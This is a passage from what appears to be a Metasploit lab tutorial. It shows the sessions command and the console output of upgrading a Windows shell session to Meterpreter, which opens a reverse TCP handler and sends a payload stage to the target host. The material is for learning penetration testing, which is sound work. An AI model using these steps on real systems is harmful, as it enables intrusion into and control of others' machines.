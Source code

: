 ```bash
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```

Run `sessions` to check the session number for your target shell.  If you haven't exploited any other targets since opening Metasploit, this should be session 1

```bash
msf5 > sessions

Active sessions
===============

  Id  Name  Type               Information
                                  Connection
  --  ----  ----               -----------
                                  ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.2.8.137:4444 -> 10.10.214.103:49187 (10.10.214.103)
```

Now, upgrade the session:

```bash
msf5 > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.8.137:4433
[*] Sending stage (176195 bytes) to 10.10.214.103
[*] Meterpreter session 2 opened (10.2.8.137:4433 -> 10.10.214.103:49213) at 2020-06-01 08:51:47 -0500
[*] Stopping exploit/multi/handler
[*] Starting interaction with 2...

meterpreter > 
```

With a Meterpreter shell, you can now do all sorts of things on the target, provided the process Meterpreter is attached to has high enough permissions.  We'll get into all the different functionality available with Meterpreter in another document, but you can check out [Offensive Security's in-depth chapter on Meterpreter here](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/).



## Database Functionality
